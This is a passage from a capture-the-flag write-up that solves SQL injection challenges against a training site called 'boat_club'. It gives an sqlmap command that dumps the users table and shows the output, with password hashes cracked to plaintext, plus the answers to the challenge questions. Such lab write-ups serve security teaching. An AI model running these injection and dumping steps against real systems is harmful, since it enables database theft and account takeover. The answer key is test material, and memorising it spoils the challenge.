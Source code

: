 ```
| 3  | Summer Festival 2022            | 1      |
| 4  | Boat Parade 2022                | 1      |
| 5  | Meet & Greet                    | 0      |
| 6  | Autumn Festival 2022            | 1      |
| 7  | Cook with James                 | 0      |
| 8  | Winter Festival 2022            | 1      |
| 9  | Yacht Tours                     | 1      |
| 10 | Christmas Party                 | 0      |
| 11 | New Year 2023 Party             | 0      |
| 12 | Speed Boat Race                 | 1      |
| 13 | Cook with Martin                | 0      |
| 14 | Carp Fishing with Thomas Gerard | 0      |
+----+---------------------------------+--------+
```

You could then see from the dump command that there were __14__ events in total.

## Question 2
__Question:__ How many users are there in the database?

__Answer:__ 6

__Solution:__ 

Staying on the events that was used to find the answer in [question 1](#question-1), we could use the output from the command that showed the tables in the `boat_club` database. The table that we are interested is `users`. You could run the command `sqlmap -u "https://sql.cybersoc.org.uk/events?query=t" -D boat_club -T users --dump`. This table contains password and if you follow the prompts by SQLMap for a dictionary based attack, you could also see the raw passwords that would be helpful for [question 3](#question-3). The output would be:
```
Database: boat_club
Table: users
[6 entries]
+----+--------+----------------+----------------------------------------------+----------+
| id | role   | fullname       | password                                     | username |
+----+--------+----------------+----------------------------------------------+----------+
| 1  | member | Steve Business | 7cf2db5ec261a0fa27a502d3196a6f60 (pizza)     | steve    |
| 2  | member | Alex Smith     | c378985d629e99a4e86213db0cd5e70d (chocolate) | alex     |
| 3  | member | Morgan Robson  | e2bbb098e9f3c4367dd6121e90df7ab9 (beans)     | morgan   |
| 4  | member | Bob Wilson     | 8b433670258f79578f9a4e5ea388b007 (sausage)   | bob      |
| 5  | member | Laura Wilson   | 19136e394ab695f9b071eb24e88ab14d (chips)     | laura    |
| 6  | member | Donald Johnson | 006f87892f47ef9aa60fa5ed01a440fb (tomato)    | donald   |
+----+--------+----------------+----------------------------------------------+----------+
```

If you look at the output from the dump command, you could see that there were __6__ users.

## Question 3
__Question:__ What is Alex's password?

__Answer:__ chocolate

